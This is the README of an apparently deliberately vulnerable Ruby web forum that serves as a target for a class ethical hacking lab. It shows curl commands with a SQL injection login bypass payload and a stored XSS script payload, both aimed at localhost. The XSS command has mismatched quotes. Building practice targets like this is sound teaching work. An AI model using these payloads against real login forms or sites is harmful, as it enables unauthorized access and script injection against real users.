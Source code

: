 # Vulnerable Forum

This is a vulnerable web forum to act as dummy application to be the punching bag for whilst doing my ethical hacking lab for class.

## Installation

    $ gem install vulnerable_forum

## Usage


#### SQL Injection 
SQL Inject the login form however you'd like, even at the command-line!:

```shell
> curl localhost:4567 --cookie "cookies.txt" --cookie-jar "cookies.txt"
Welcome to the forum!
Total Users: 1
Total Posts: 2

> curl -X POST localhost:4567/login \ 
    -d "username=' or ''='&password=' or ''='" \ 
    --cookie "cookies.txt" \ 
    --cookie-jar "cookies.txt"
Welcome back John!

> curl localhost:4567 --cookie "cookies.txt" --cookie-jar "cookies.txt"
Welcome to the forum, John!
Total Users: 1
Total Posts: 2
```

#### Stored Cross-Site Scripting
Stored XXS attacks are fun, huh?:

```shell
> curl -X POST localhost:4567/post \ 
  -d "title=Hacked&content=<script>alert("Hacked!")</script>' 
  --cookie "cookies.txt" \
  --cookie-jar "cookies.txt"
```

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the VulnerableForum project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/[USERNAME]/vulnerable_forum/blob/master/CODE_OF_CONDUCT.md).
